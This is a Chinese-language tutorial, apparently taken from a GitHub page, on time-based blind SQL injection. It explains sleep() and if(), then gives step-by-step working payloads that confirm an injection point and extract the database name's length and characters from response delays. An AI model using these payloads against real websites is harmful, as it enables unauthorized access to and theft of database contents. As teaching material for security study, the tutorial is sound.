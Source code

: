 


> 
<h3>1.2、原理：</h3>
通过一个页面加载的时间延时来判断
但是这和网络，性能，设置的延时长短有关系
当对数据库进行查询操作，如果查询的条件不存在，语句执行的速度非常快，执行时间基本可以认为是0，通过控制sql语句的执行时间来判断


---


---


## 二、常用函数：

> 
<h3>2.1、延迟函数：</h3>

**sleep(N)函数**
即如果写入到数据库被执行了，sleep(N)可以让此语句运行N秒钟
（通过执行时间来判断是否被执行，但是可能会因网速等问题参数误差）
<hr/>
<h3>2.2、相关函数：</h3>
**if()函数**
​ if(a,b,c)，如果a的值为true，则返回b的值，如果a的值为false，则返回c的值
<hr/>
<h3>2.3、示例语句</h3>
?id=1’ and if ((ascii(substr(database(),0,1))&gt;100),sleep(10),1) --+
sleep(if(database()="security",10,0))


### 2.2、相关函数：

---


---


---


## 三、利用过程

> 
<h3>3.1、第一步：判断注入点</h3>
"and 1=1--+  页面返回有数据
"and 1=0--+  页面返回有数据
则：页面的返回没有变化，可能是盲注
<hr/>
<h3>3.2、第二步：判断可使用注入方法</h3>
然后用sleep()判断能否利用时间盲注
"and sleep(5)--+   页面延时了
则：是时间盲注。
<hr/>
<h3>3.3、第三步：猜数据库名称长度</h3>
"and if((length(database()))=10,sleep(5),1)--+  页面延时了
则：当前数据库名称长度为 10
<hr/>
<h3>3.4、第四步：猜数据库名称（ASCII码）</h3>
"and if(ascii(substr(database(),1,1))=107,sleep(5),1)--+  页面延时了
则：数据库第一个字母是k... 类推得到数据库名
<hr/>
（字段名、数据，都是以此类推）
